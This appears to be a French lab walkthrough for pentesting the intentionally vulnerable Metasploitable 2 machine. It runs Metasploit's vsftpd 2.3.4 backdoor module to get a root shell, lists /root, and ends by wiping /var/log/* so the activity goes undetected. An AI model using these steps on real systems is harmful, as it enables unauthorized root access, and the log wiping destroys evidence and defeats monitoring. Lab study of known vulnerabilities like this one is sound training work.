 # Pentest sur la machine Metasploit 2

## Exploitation de vsftpd 2.3.4

Sur la Kali Linux, vérifier que le service FTP est actif en effectuant une connexion : 
```bash
ftp 10.10.0.200
```

### Lancement de Metasploit

```bash
sudo msfconsole
```

<p align="center">
    <img src="msfconsole.png" alt="msfconsole" style="width: 800px;" />
</p>

### Chargement et configuration du module d'exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

```bash
set RHOSTS 10.10.0.200
set RPORT 21
```

```bash
run
```
<p align="center">
    <img src="exploit.png" alt="exploit" style="width: 800px;" />
</p>

### Vérifications post-exploit

Pour vérifier si cela a réussi (whoami doit renvoyer root) : 

```bash
whoami
```

Lister les fichiers sensibles : 

```bash
ls /root
```

<p align="center">
    <img src="post-exploit.png" alt="post-exploit" style="width: 800px;" />
</p>

Eviter que les activités de pentest soient détectées : 

```bash
rm -rf /var/log/*
```